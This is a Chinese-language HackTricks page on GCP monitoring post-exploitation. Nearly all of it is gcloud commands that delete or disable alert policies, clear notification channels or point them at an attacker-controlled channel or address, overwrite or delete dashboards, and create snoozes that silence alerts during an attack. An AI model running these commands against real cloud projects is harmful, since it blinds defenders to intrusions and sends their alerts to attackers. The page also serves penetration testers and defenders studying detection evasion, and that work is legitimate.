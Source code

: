 # GCP - 监控后渗透

{{#include ../../../banners/hacktricks-training.md}}

## 监控

有关更多信息，请查看：

{{#ref}}
../gcp-services/gcp-monitoring-enum.md
{{#endref}}

有关其他干扰日志的方法，请查看：

{{#ref}}
gcp-logging-post-exploitation.md
{{#endref}}

### `monitoring.alertPolicies.delete`

删除警报策略：
```bash
gcloud alpha monitoring policies delete <policy>
```
### `monitoring.alertPolicies.update`

干扰警报策略：
```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```
### `monitoring.dashboards.update`

修改仪表板以干扰它：
```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
displayName: New Dashboard with New Display Name
etag: 40d1040034db4e5a9dee931ec1b12c0d
gridLayout:
widgets:
- text:
content: Hello World
'''
```
### `monitoring.dashboards.delete`

删除仪表板：
```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```
### `monitoring.snoozes.create`

通过创建一个 snoozer 来防止策略生成警报：
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
--criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
--start-time="2023-03-01T03:00:00.0-0500" \
--end-time="2023-03-07T23:59:59.5-0500"
```
### `monitoring.snoozes.update`

更新snoozer的时间，以防止在攻击者感兴趣时创建警报：
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
### `monitoring.notificationChannels.delete`

删除已配置的通道：
```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```
### `monitoring.notificationChannels.update`

更新通道的标签以干扰它：
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{{#include ../../../banners/hacktricks-training.md}}
